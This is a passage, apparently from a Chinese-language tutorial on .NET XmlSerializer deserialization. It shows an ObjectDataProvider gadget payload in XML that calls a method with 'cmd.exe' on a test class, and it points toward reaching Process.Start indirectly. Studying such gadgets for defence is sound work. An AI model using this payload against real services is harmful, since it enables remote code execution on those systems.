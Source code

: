 >data.xml

```

<?xml version="1.0" encoding="utf-8"?>
<ExpandedWrapperOfMyClasssObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="MyClasss" />
    <MethodName>PullFile</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">cmd.exe</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfMyClasssObjectDataProvider>

```

反序列化触发：

![](./img/7.7.png)

至此我们已经可以使用`ObjectDataProvider` 调用引用类文件的方法了。但是`MyClasss`类也是我们自己设计的，在实际环境中可能还是不存在这种理想化模型，由于`ObjectDataProvider`可以调用`Process.Start`，但是不能直接序列化，所以我们需要找到一个途径来间接调用`Process.Start`。
